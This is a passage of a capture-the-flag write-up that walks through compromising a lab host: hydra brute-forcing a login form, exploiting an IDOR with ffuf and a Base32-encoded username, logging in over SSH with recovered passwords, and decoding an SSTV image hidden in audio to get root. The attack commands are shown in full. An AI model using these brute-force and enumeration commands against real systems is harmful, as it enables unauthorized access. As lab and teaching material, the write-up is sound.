I tried `puppet` with a random password in the login form, and this time got "Bad password" back instead.



Same approach, this time fixing the username and brute-forcing the password, filtering on that new error string.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -l puppet -P /usr/share/wordlists/rockyou.txt nano.cherryontop.thm http-post-form "/login.php:username=^USER^&password=^PASS^&submit=:F=Bad password" -f           
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://nano.cherryontop.thm:80/login.php:username=^USER^&password=^PASS^&submit=:F=Bad password
[80][http-post-form] host: nano.cherryontop.thm   login: puppet   password: master
[STATUS] attack finished for nano.cherryontop.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
```

This one came back within seconds: `puppet:master`.

## Molly's Dashboard

Logging in with those credentials landed me on the dashboard, with the flag right there.



### Question — Gain access to Molly's Dashboard. What is the flag?

**Answer:** `—REDACTED—`

## Molly's SSH Credentials and First Password Segment

Finally scrolling down after a minute of being amused by the writing, I found a card for Jex ("Hacker with a Stupid Hat") that contained an SSH password.



I tried it against molly-milk and it worked.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh molly-milk@cherryontop.thm 
molly-milk@cherryontop.thm's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-102-generic x86_64)
Last login: Mon Jan 15 21:40:22 2024
$ whoami
molly-milk
```

After stabilising the shell:

```shell
molly-milk@ip-10-114-151-101:~$ cat DONTLOOKCHAD.txt 
Dear Chad,

Cherries, Ice Cream, and Milk,
In the bowl of life, we mix and swirl,
Like cherries, ice cream, and milk's swirl.
Cherries so red, plucked from the tree,
Sweet as your love, pure as can be.
Ice cream so smooth, so cool and white,
Melts in my mouth, with sheer delight.
Milk so pure, so creamy and rich,
The base of our love, the perfect mix.
Together they blend, in perfect harmony,
Like you and I, so sweet, so free.
With each bite, my heart takes flight,
As our love grows, so strong, so bright.
Cherries, ice cream, and milk,
Our love's ingredients, so smooth and silk.
Forever and always, our love will stay,
Like the sweet taste, that never fades away.

Love,
Molly

P.S. I'll hold on tight to that first part of your password you gave me! If anything ever happens to you, we'll all be sure to keep your dream of erasing vim off of all systems alive!
molly-milk@ip-10-114-151-101:~$ cat chads-key1.txt
—REDACTED—
```

### Question — What is the first part of Chad Cherry's password?

**Answer:** `—REDACTED—`

## Revisiting the IDOR — Sam's Credentials

The only thing I could think of next was to go back to the IDOR I'd found near the beginning. Having now gotten Molly and Bob, I thought I'd try encoding Sam's username instead of Guest or Admin for the `user` parameter. `sam-sprinkles` Base32 encoded is `ONQW2LLTOBZGS3TLNRSXG===`.



I re-ran the earlier ffuf command against the `facts` parameter, but with this token.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=ONQW2LLTOBZGS3TLNRSXG===' -w ./nums.txt -c -fs 2460-2470

3                       [Status: 200, Size: 2514, Words: 762, Lines: 63, Duration: 36ms]
2                       [Status: 200, Size: 2519, Words: 762, Lines: 63, Duration: 35ms]
4                       [Status: 200, Size: 2523, Words: 761, Lines: 63, Duration: 36ms]
43                      [Status: 200, Size: 2558, Words: 764, Lines: 63, Duration: 35ms]
50                      [Status: 200, Size: 2487, Words: 757, Lines: 63, Duration: 35ms]
64                      [Status: 200, Size: 2486, Words: 757, Lines: 63, Duration: 35ms]
1                       [Status: 200, Size: 2499, Words: 759, Lines: 63, Duration: 3142ms]
20                      [Status: 200, Size: 2479, Words: 755, Lines: 63, Duration: 4153ms]
```

Same numbers came back as before. The sizes though—for some they stayed the same, others changed minutely, but 43's changed quite a bit relative to the others. I checked that one.



That gave me Sam's SSH password: `sam-sprinkles:SammyInMiami43`.

## Sam's SSH Access and Second Password Segment

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh sam-sprinkles@cherryontop.thm
sam-sprinkles@cherryontop.thm's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-102-generic x86_64)
Last login: Fri Jan  5 23:31:43 2024 from 10.0.2.15
$ whoami 
sam-sprinkles
```

```shell
sam-sprinkles@ip-10-114-151-101:~$ cat whyChadWhy\?\?.txt
Dude Chad! I thought we were bros!

I don't know if you'll ever read this, but ever since Molly joined the company, you've changed!

We had such a bromance going on and now you're letting her dig her nails into you!

I know you said you're not that into her, but I see how you tool look at eachother! It was always get paid before milk maids!

But I guess you've fallen for a milk maid now! I'm worried about you man...

Either way, I'll keep your secret password segment nice and hidden.

I hope we can hangout again soon.

Your friend,

Sam
sam-sprinkles@ip-10-114-151-101:~$ cat chads-key2.txt
—REDACTED—
```

### Question — What is the second part of Chad Cherry's password?

**Answer:** `—REDACTED—`

## Chad Cherry's Account

Putting all three parts together in file order gave me `n4n0ch3rryw1llb37h3fu7ur3`.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh chad-cherry@cherryontop.thm 
chad-cherry@cherryontop.thm's password: 
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-102-generic x86_64)
Last login: Sat Apr  8 10:44:17 2023 from 10.0.2.16
chad-cherry@ip-10-114-151-101:~$ 
```

### Question — Put the three parts of Chad Cherry's password together and access his account. What is the flag you obtained?

```shell
chad-cherry@ip-10-114-151-101:~$ cat Hello.txt
Hello there.

If you're reading this and you aren't me, then it means either something drastic has happened to me and my associates have now accessed my account.

Or I've been hacked.

Either way, I have to confess to my misdeeds.

My grand plan, as it unfolds, has always been to develop a "cloud solution" (aka a worm) to infect every machine on the planet and uninstall every version of vim avaliable.

Vi, vim, neo vim, doesn't matter. I hate them all.

Everytime I try to use it, I get trapped. Can't leave my prison of text.

It wasn't until I saw the light when Sam showed me Nano. All of the commands are displayed at the bottom of the screen! Just as they should be!

But in order to realize this dream, I've had to lie. To everyone.

You see, I need a programmer to make the worm for me. Programmers cost money. And that's where Molly and Bob come in.

Molly is... Something else. She's a talented blackmailer and web designer. I know she likes me, but I've been using her. 

Truth is, I'm afraid of her. I'm afraid if she realizes that I've been manipulating her, she'll turn my life upside down. 

Even though I threaten, I know I can fire her for real. I'm just so... insecure...

As far as that programmer goes, I told the team I found one. I guess I did, I even let him access my computer for a bit. I hope he didn't put any backdoors or anything...

Maybe he's the one Molly was talking about, goes under that alias.

Anyways, to whomever has access to this device now, I have one final request: gain root access and wipe this machine off the face of the earth. I'm too ashamed of how I've treated everyone to continue, especially Sam... he's too good of a friend.

You can find the password to the root account in the .wav file. Whomever you are, if you're a smart enough hacker, you'll figure it out.

Good luck and as that one guy keeps saying: don't be a script kiddie.

- Chad Cherry
chad-cherry@ip-10-114-151-101:~$ cat chad-flag.txt
—REDACTED—
```

**Answer:** `—REDACTED—`

I quite enjoyed and appreciated the little narrative that the creators of this CTF have spun here.

## The Root Password — Audio Steganography

### Retrieving the File

Chad's note pointed at a `.wav` file for the root password, so I pulled it down.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ scp chad-cherry@cherryontop.thm:~/rootPassword.wav .                                                                                    
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ file rootPassword.wav                                                                                                                                            
rootPassword.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, mono 44100 Hz
```

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ exiftool rootPassword.wav                                                  
ExifTool Version Number         : 13.55
File Name                       : rootPassword.wav
Directory                       : .
File Size                       : 3.3 MB
File Type                       : WAV
File Type Extension             : wav
MIME Type                       : audio/x-wav
Encoding                        : Microsoft PCM
Num Channels                    : 1
Sample Rate                     : 44100
Avg Bytes Per Sec               : 88200
Bits Per Sample                 : 16
Duration                        : 0:00:38
```

Neither gave me anything beyond standard file metadata—just a plain mono WAV. I had no idea what I was supposed to do with this. I had guessed that it probably came down to steganography, which I had no experience in, so I had to conduct some research.

I searched for "linux wav file steganography how to decode" and found [this guide on extracting secret messages from audio files](https://medium.com/analytics-vidhya/get-secret-message-from-audio-file-8769421205c3).

### Identifying SSTV

I downloaded Audacity, searched "audacity wav file steganography how to decode for beginners," and followed [this guide on audio forensics for CTFs](https://dev.to/rudycandy/audacity-ctf-audio-forensics-2ko6). I switched the track's visualization from Waveform to Spectrogram.



The spectrogram showed a regular striped pattern.



I pasted a screenshot of it into Google Images for identification, and got back that this looked like SSTV.



Within the Audacity forensics guide, there was a section that matched exactly:



### Decoding the Image

I installed qsstv, launched it, and configured it to receive from file, then chose `rootPassword.wav`. It gave me a "Format not supported" error.



That was too far out of my wheelhouse to fix, so I searched online for "linux tool to decode sstv" and found a CLI alternative: [`sstv` by colaclanth on GitHub](https://github.com/colaclanth/sstv).

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sstv -d rootPassword.wav -o rootPassword.png 
[sstv] Searching for calibration header... Found!    
[sstv] Detected SSTV mode Robot 36
[sstv] Decoding image...                                                                                                         [####################################################################################################]  99%
[sstv] Reached end of audio whilst decoding.
[sstv] Drawing image data...
[sstv] ...Done!
```

Viewing the resulting image showed a pair of cherries with skulls and crossbones over them, with the text "NanoWillNeverBeOvertaken" underneath.



That was the root's password. 
## Root Access

```shell
chad-cherry@ip-10-114-151-101:~$ su root
Password: 
root@ip-10-114-151-101:/home/chad-cherry# 
```

I'm in. Now, the flag.

```shell
root@ip-10-114-151-101:/home/chad-cherry# cd /root
root@ip-10-114-151-101:~# ls
root-flag.txt  snap
root@ip-10-114-151-101:~# cat root-flag.txt 
—REDACTED—
```

### Question — What is the root flag?

**Answer:** `—REDACTED—`